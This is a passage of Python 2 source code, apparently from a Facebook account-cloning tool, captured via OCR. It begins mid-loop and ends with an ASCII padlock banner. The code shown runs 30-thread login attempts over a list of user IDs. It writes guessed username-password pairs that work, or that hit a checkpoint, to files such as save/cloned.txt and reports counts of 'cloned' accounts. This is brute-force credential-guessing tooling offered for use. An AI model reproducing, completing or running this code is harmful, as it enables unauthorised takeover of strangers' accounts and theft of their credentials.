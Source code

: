                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
    ███
──────────███║║║║║║║███
─────────█║║║║║║║║║║║║║█
────────█║║║║███████║║║║█
───────█║║║║██─────██║║║║█
──────█║║║║██───────██║║║║█
─────█║║║║██─────────██║║║║█
─────█║║║██───────────██║║║█
─────█║║║█─────────────█║║║█
─────█║║║█─────────────█║║║█
─────█║║║█─────────────█║║║█
─────█║║║█─────────────█║║║█
────███████───────────███████
───██║║║║║║██────────██║║║║║██
──██║║║║║║║║██──────██║║║║║║║██
─██║║║║║║║║║║██───██║║║║║║║║║║██
██║║║║║║║║║║║║█████║║║║║║║║║║║║██
█║║║║║║║║║║║║║║║║║║║║║║║║║║║║║║║█
█║║║║║║║║║║║║║█████║║║║║║║║║║║║║█
█║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█
█║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█
█║║║║║║║║║║║║█░░░░░█║║║║║║║║║║║║█
██║║║║║║║║║║║█░░░░░█║║║║║║║║║║║██
██║║║║║║║║║║║║█░░░█║║║║║║║║║║║║██
─██║║║║║║║║║║║█░░░█║║║║║║║║║║║██
──██║║║║║║║║║║█░░░█║║║║║║║║║║██
───██║║║║║║║║║█░░░█║║║║║║║║║██
────██║║║║║║║║█████║║║║║║║║██
─────██║║║║║║║║███║║║║║║║║██
──────██║║║║║║║║║║║║║║║║║██
───────██║║║║║║║║║║║║║║║██
────────██║║║║║║║║║║║║║██
─────────██║║║║║║║║║║║██
──────────██║║║║║║║║║██